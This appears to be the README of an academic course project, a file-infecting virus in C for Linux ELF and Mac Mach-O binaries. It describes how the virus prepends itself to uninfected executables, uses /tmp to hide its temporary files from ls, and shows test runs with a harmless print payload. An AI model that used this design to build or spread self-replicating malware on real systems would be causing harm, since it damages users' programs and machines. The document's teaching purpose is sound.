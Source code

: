 # File Infecting Virus
File infecting virus implemented in C. 

linux_virus.c Built for Linux x86 systems (infects only ELF executables).  
mac_virus.c Built for Mac OSX (infects only Mach-O executables).  

Author: Chase Clarke cfclarke@bu.edu

This code is written solely for academic purposes and is not to be used for for illegal or damaging applications.

## What is a file Infecting virus?

```
"A file-infecting virus is a type of malware that infects executable files with the intent to cause permanent damage or make them unusable. A file-infecting virus overwrites code or inserts infected code into an executable file. This type of virus can infect a number of operating systems, including Macintosh, Windows, and Unix."
```

## How does it work?

The operation of this virus is simple but quite effective. Every executable will be viewed by the program as infected or uninfected. If the file is infected, it is left alone. If it is not infected, it will execute the following operation.

First, It executes the given payload. Next, it finds an existing (uninfected) executable and appends the same payload at the begging of the new file. This is great, and the virus will spread, but if the computer attempts to run an infected file it will just run the malware and cleanly exit before the old executable is run.

To fix the exiting problem, the virus will split the infected program to create two temporary executables in the /tmp directory* upon execution. The infected file will call each of these in succession. The first file will be the malware and the second will be the old purpose of the program. For demonstration purposes, my virus payload consists of a print statement that says “Hello! I am a simple virus!” every time it is run.

To summarize: an infected file will print “Hello! I am a simple virus!” (this is my mock payload), attempt to infect another file, and then execute the old functionality of the file.

*Usage of the /tmp directory is intended to prevent an ls call from accidentally uncovering the temporary files during the virus’s execution.

# Getting Started

Fork the code into a local, isolated, directory.
Run through the following steps to get a feel of how the virus runs andspreads.

* Make sure invoking your virus stand-alone as ./virus works -- it should not
crash:
```
$ ./virus 2>&1
Hello! I am a simple virus!
```
* Copy /bin/echo to the directory where your virus is and test it:
```
$ cp /bin/echo .
$ ls
echo  sometext.txt  virus
$ ./virus 2>&1
Hello! I am a simple virus!
$ ./echo Master
Hello! I am a simple virus!
Master
```
* Copy /bin/ls to the directory where your virus is and test it:
```
$ cp /bin/ls .
$ ./echo 2>&1
Hello! I am a simple virus!

$ ./ls 2>&1
Hello! I am a simple virus!
echo  ls  sometext.txt  virus
```
* Copy /bin/cat and /bin/grep where your virus is and test that your virus is
robust:
```
$ cp /bin/cat .
$ cp /bin/grep .
$ chmod u-w-r grep
$ ./ls 2>&1
Hello! I am a simple virus!
cat  echo  grep  ls  sometext.txt  virus
$ ./cat sometext.txt -n 2>&1
Hello! I am a simple virus!
     1  Hello world!
```
* Invoke ./echo again to make sure that the output is the same:
```
$ ./echo Master
Hello! I am a simple virus!
Master
```
(test cases created by Manuel Egele megele@bu.edu).

